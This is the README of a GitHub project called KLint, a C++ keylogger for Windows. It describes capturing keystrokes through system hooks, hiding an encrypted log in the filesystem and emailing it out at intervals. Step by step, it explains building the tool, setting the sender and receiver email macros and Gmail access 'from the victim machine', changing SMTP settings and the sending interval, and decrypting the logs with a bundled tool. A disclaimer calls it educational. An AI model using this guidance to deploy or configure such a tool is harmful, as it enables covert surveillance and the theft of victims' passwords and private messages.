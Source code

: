 # KLint 
**CPP KeyLogger**<br /><br />
**KLint** captures keyboard key strokes using system hooks [**Based on Windows API**]. The keystrokes are written to a encrypted log file 
hidden under the windows filesystem tree and the log file is sent to the target via email after paticular time intervals as defined in **KeyHooks.h**<br />
In current version **v0.01** only keystroke recording is supported but soon screenshots, audio recording and much more will be added. <br /><br />

## Disclaimer
ANY MALICIOUS USE OF THE CONTENTS FROM THIS PROJECT WILL NOT HOLD THE AUTHOR RESPONSIBLE, THE CONTENTS ARE SOLELY FOR EDUCATIONAL PURPOSE

<br >
Table of Contents
=================

   * [Setup](#setup)
   * [Configuring The Keylogger](#configuration)
        * [Email Setup](#email-setup)
        * [Additional Params](#additional-parameters)
   * [Encryption](#encryption)
   * [Decryption](#decryption)
        * [Klint Decryptor](#Klint-Decryptor)


## Setup
Download the repository using either bash or the browser

```
git clone https://github.com/shaiq-dev/Klint.git
```

The keylogger is created in **CodeBlocks**, however any IDE supporting C++ can be used to build or modify the project. The CodeBlocks project files are included with this repo. <br />
For any other IDE directly add all the files to a new project. <br /><br />
**Prerequisites**

```

* C++11 standards must be enabled and if using GCC compilter, -mwindows flag needs to be checked
* Addtionally -static flag maybe need to bundle all the dependencies with the exe that are required during runtime

```
    
## Configuration
For current version all the configurations are directly done to the source code. This will be changed in upcoming versions

### Email Setup
Default email configuration is set for **Gmail**. For email setup you need to configure 3 Macros in ***Sender.h*** in ..\KLint\Klint\Sender.h on ***Line 40*** <br />
```
    #define X_EM_TO "receiver@mail.com"
    #define X_EM_FROM "sender@mail.com"
    #define X_EM_PASS "sender password"
```
**X_EM_TO**       &#9;:&#9;Your destination email <br />
**X_EM_FROM**     &#9;:&#9;Your Source email   <br />
**X_EM_PASS**     &#9;:&#9;Source email password   <br />

* **For Gmail Users**

    * To send the emails successfully from the victim machine turn on "Allow  LESS SECURE APPS" from [here]("https://myaccount.google.com/lesssecureapps")<br />
    * Alternatively to be on the safer side you can use "APP PASSWORDS"
    from [here]("https://myaccount.google.com/apppasswords"), but to use this you need to enable 2 factor authentication
    *   Learn more about app passwords on Google [support]("https://support.google.com/accounts/answer/185833?hl=en")<br />

*   **Other Mail Providers**

    Open ***Sender.h*** and goto **Line 69**
    ```
    $Srv = \"smtp.gmail.com\" "
    ```
    Change **smtp.gmail.com** with the mail server of your email provider and edith **Line 78**
    ```
    "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
    ```
    Change **587** with your mail server port number


### Additional Parameters

To change the *time interval* for sending emails, there is a macro in ***KeyHooks.h*** in ..\KLint\Klint\KeyHooks.h on ***Line 17*** <br />
```
#define X_EM_SEMA 30000
```
That default value is *30000* which represents _30_ seconds or _30000 milliseconds_. Any value here should be given in milliseconds<br /><br />

## Encryption

The keylogger uses [BASE64]("https://en.wikipedia.org/wiki/Base64") encryption, as it is easy to decrypt so i have added some modification to the original algorithim. <br />
If you want to change the algorithim to fit your needs goto ___Base64.h___ located at _.\KLint\Klint\Base64.h_ and change the __SALTS__ and do the custom modifications to the following function on __Line 29__
```
 std::string encryptB64(std::string s) 
```
Any modifications made here shall also be made with the [decryptor](#decryption) in the reverse fashion. <br />
You can also change the whole algorithim to fit your needs
<br /><br />

## Decryption

The logs are decrypted using the same BASE64 algorithim and all the modifications made in the __BASE64.h__ are reversed here. The decryptor is located at 
```
..\KLint\Klint Decryptor\Klint-dcrypt\main.cpp
```
Any modifications made with the encryptor shall be reverted here but in reverse fashion. All the modifications shall be done with the below function located at __Line 69__
```
std::string DecryptB64(std::string s)
```

### KLint Decryptor

The ___exe___ version of the klint decryptor is already bundled with this project and can be used to decrypt the log files. It is located at
```
...\KLint\Klint Decryptor\Klint-dcrypt\bin\Debug\Klint-dcrypt.exe
```
**Usage** <br />

The __klint-dcrypt.exe__ can be run from the Windows command Line, it requires two parameters, input and the output file.
```
CMD > .\klint-dcrypt.exe "InputFile.log" "OutputFile.log"
```  

## License
This project is licensed under the MIT License, see the [LICENSE](License.md) file for more details
